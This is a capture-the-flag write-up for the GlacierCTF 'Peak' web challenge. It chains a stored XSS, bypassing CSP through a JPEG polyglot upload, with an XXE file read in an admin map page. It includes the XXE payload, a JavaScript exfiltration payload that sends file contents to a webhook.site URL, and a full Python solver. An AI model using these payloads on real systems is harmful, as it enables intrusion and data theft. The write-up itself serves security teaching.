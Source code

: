 # Peak [88 Solves]

## Description

> Within the heart of Austria's alpine mystery lies your next conquest. Ascend the highest peak, shrouded in whispers of past explorers, to uncover the flag.txt awaiting atop. Beware the silent guards that stand sentinel along the treacherous path, obstructing your ascent.
>
> author: Chr0x6eOs
>
> <https://peak.web.glacierctf.com>
>
> Attachments: challenge.zip

<details><summary>Attachment file tree</summary>

```console
$ unzip -t challenge.zip
Archive:  challenge.zip
    testing: dist/                    OK
    testing: dist/flag/               OK
    testing: dist/flag/flag.txt       OK
    testing: dist/admin-simulation/   OK
    testing: dist/admin-simulation/admin.py   OK
    testing: dist/web/                OK
    testing: dist/web/assets/         OK
    testing: dist/web/assets/popper.js   OK
    testing: dist/web/assets/img/     OK
    testing: dist/web/assets/img/peak.png   OK
    testing: dist/web/assets/img/map.png   OK
    testing: dist/web/assets/img/sightseeing.png   OK
    testing: dist/web/assets/img/road.png   OK
    testing: dist/web/assets/img/hiking.png   OK
    testing: dist/web/assets/img/climbing.png   OK
    testing: dist/web/assets/jquery.js   OK
    testing: dist/web/assets/bootstrap.js   OK
    testing: dist/web/assets/leaflet.js   OK
    testing: dist/web/actions/        OK
    testing: dist/web/actions/logout.php   OK
    testing: dist/web/actions/register.php   OK
    testing: dist/web/actions/login.php   OK
    testing: dist/web/actions/contact.php   OK
    testing: dist/web/login.php       OK
    testing: dist/web/index.php       OK
    testing: dist/web/admin/          OK
    testing: dist/web/admin/data.example   OK
    testing: dist/web/admin/map.php   OK
    testing: dist/web/admin/includes/   OK
    testing: dist/web/admin/includes/session.php   OK
    testing: dist/web/admin/support.php   OK
    testing: dist/web/uploads/        OK
    testing: dist/web/uploads/.htaccess   OK
    testing: dist/web/includes/       OK
    testing: dist/web/includes/loggedon.php   OK
    testing: dist/web/includes/csp.php   OK
    testing: dist/web/includes/footer.php   OK
    testing: dist/web/includes/error.php   OK
    testing: dist/web/includes/header.php   OK
    testing: dist/web/includes/config.php   OK
    testing: dist/web/includes/session.php   OK
    testing: dist/web/includes/menu.php   OK
    testing: dist/web/pages/          OK
    testing: dist/web/pages/view_message.php   OK
    testing: dist/web/pages/climbing.php   OK
    testing: dist/web/pages/hiking.php   OK
    testing: dist/web/pages/sightseeing.php   OK
    testing: dist/web/pages/contact.php   OK
    testing: dist/web/pages/directions.php   OK
    testing: dist/sqlite.db           OK
    testing: dist/docker-compose.yml   OK
    testing: dist/.docker/            OK
    testing: dist/.docker/Dockerfile-web   OK
No errors detected in compressed data of challenge.zip.
```

</details>

## Flag

gctf{Th3_m0unt4!n_t0p_h4s_th3_b3st_v!3w}

## Solution

The flag is in /flag.txt file.

### XSS

Looking at the attached source code, this Web application has a Cross Site Scripting (XSS) in /pages/view_message.php?id=yourid page because `$message['content']` is rendered without HTML escape.

```php
<!-- dist/web/pages/view_message.php -->

        <!-- (snip) -->
        <section id="message" class="py-5">
            <div class="container mt-5">
                <?php if (isset($message)): ?>
                    <h1><?php echo htmlentities($message['title']);?></h1>
                    <p><?php echo $message['content']; ?><!-- this -->
                    <?php if($message['file'] !== "") : ?>
                        <div>
                        <img name="image" src="<?php echo $message['file']?>">
                        </div>
                    <?php endif;?>
                <?php endif; ?></p>
            </div>
        </section>
        <!-- (snip) -->
```

However, the payload `<script>alert(1)</script>` does not work due to the following [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) header:

```console
$ curl -D- https://peak.web.glacierctf.com//pages/view_message.php?id=41
(snip)
Content-Security-Policy: script-src 'self'
(snip)
```

It is possible to bypass CSP by XSS in JPEG Polyglot.
I have previously implemented [Exploiting XSS with JPEG Polyglot](https://github.com/4n86rakam1/xss_injection_in_jpeg) for a different purpose.
I am testing XSS with CSP bypass using this tool.

1. Create a JPEG image containing as XSS payload.

   ```bash
   # Requirement: `convert` command in ImageMagick
   git clone https://github.com/4n86rakam1/xss_injection_in_jpeg.git
   echo 'alert(1)' > payload.js
   python3 xss_injection_in_jpeg/exploit.py --payload-file payload.js --imagesize 10x10 --output xss.jpg
   ```

1. Upload the image created in the previous step and access /pages/view_message.php?id=yourid to retrieve image path
1. Post `<script charset="ISO-8859-1" src="yourimagepath"></script>` as a content parameter and access /pages/view_message.php?id=yourid

1. Got XSS

   ![detect_xss.png](img/detect_xss.png)

### XXE

Next, it has XML external entity (XXE) injection in dist/web/admin/map.php.

Tested:

1. `docker-compose up -d`
1. Login as admin (default admin password is `example-password`) in localhost
1. Access <http://localhost/admin/map.php>
1. Submit the following payload:

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
   <markers>
       <marker>
           <lat>47.0748663672</lat>
           <lon>12.695247219</lon>
           <name>&xxe;</name>
       </marker>
   </markers>
   ```

1. Got the flag through XXE Path Traversal

  ![detect_XXE.png](img/detect_XXE.png)

### Exploit Step

1. Create XSS payload

   ```javascript
   fetch("/admin/map.php", {
     method: "POST",
     headers: { "Content-Type": "application/x-www-form-urlencoded" },
     body: new URLSearchParams({
       data: '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><markers><marker><lat>47.0748663672</lat><lon>12.695247219</lon><name>&xxe;</name></marker></markers>',
     }),
   })
     .then((resp) => resp.text())
     .then((text) => {
       new Image().src =
         "https://webhook.site/<yourwebhook>/?data=" +
         btoa(text);
     });
   ```

1. Create a JPEG image containing as XSS payload.

   ```bash
   # Requirement: `convert` command in ImageMagick
   git clone https://github.com/4n86rakam1/xss_injection_in_jpeg.git
   vi payload.js  # paste XSS payload created in the previous step
   python3 xss_injection_in_jpeg/exploit.py --payload-file payload.js --imagesize 10x10 --output xss.jpg
   ```

1. Execute the following solver.py

   ```python
   import requests
   import random, string
   import re
   
   requests.packages.urllib3.disable_warnings()
   
   BASE_URL = "https://peak.web.glacierctf.com"
   # BASE_URL = "http://localhost"
   USERNAME = PASSWORD = "".join(
       random.choices(string.ascii_letters + string.digits, k=10)
   )
   
   
   def main():
       s = requests.Session()
       # s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
       s.verify = False
   
       # register user
       s.post(
           f"{BASE_URL}/actions/register.php",
           data={"username": USERNAME, "password": PASSWORD},
           allow_redirects=False,
       )
   
       # post image
       res = s.post(
           f"{BASE_URL}/actions/contact.php",
           files={
               "image": ("test.jpg", open("xss.jpg", "rb"), "image/jpeg"),
           },
           data={"title": "a", "content": "b"},
           allow_redirects=True,
       )
   
       # retrieve message path. e.g. /pages/view_message.php?id=32
       message_path = re.findall(
           r"<a name='message' href='(.*?)'>",
           res.text,
       )[0]
   
       # request to message_path
       res = s.get(f"{BASE_URL}{message_path}")
   
       # retrieve image path. e.g. /uploads/65642f83b95101701064579759044
       image_path = re.findall(r'<img name="image" src="(.*?)">', res.text)[0]
   
       xss_payload = f'<script charset="ISO-8859-1" src="{image_path}"></script>'
   
       # post xss payload
       res = s.post(
           f"{BASE_URL}/actions/contact.php",
           data={"title": "a", "content": xss_payload},
           allow_redirects=False,
       )
   
       # Check your webhook request.
   
   
   if __name__ == "__main__":
       main()
   ```

